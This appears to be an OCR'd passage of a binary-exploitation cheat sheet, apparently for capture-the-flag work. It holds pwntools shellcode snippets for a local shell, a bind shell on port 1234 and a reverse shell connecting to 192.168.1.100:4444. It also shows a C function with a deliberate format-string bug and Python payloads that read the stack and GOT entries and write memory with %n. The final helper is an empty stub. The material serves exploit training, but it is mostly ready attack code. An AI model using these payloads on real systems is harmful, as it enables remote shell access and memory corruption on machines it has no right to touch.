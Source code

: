 ```python
from pwn import *

# Linux execve shell
shellcode = asm(shellcraft.sh())

# Read flag
shellcode = asm(shellcraft.cat('flag.txt'))

# Port bind shell (port 1234)
shellcode = asm(shellcraft.bindsh(1234))

# Reverse shell
shellcode = asm(shellcraft.connect('192.168.1.100', 4444) + shellcraft.sh())
```

## 📝 Format String Vulnerabilities

### Vulnerable Code

```c
#include <stdio.h>

void vuln(char *input) {
    printf(input);  // Should be printf("%s", input);
}
```

### Reading Memory

```python
# Read stack values
payload = b"%p " * 10  # Print 10 stack values

# Read specific address
payload = p64(target_addr) + b"%7$s"  # Read as string at 7th parameter

# Read GOT entry
payload = b"%p " + p64(elf.got['printf'])
```

### Writing Memory

```python
# Write to address using %n
# %n writes number of bytes printed so far

# Write single byte
payload = b"AAAA" + p64(target_addr) + b"%100x%7$n"
# Writes 104 (4 + 100) to target_addr

# Write arbitrary value using multiple writes
def fmt_str(address, value):
    payload = b""
    # Build format string for writing 'value' to 'address'
    # Use %hhn for byte writes, %hn for short writes
    return payload
```
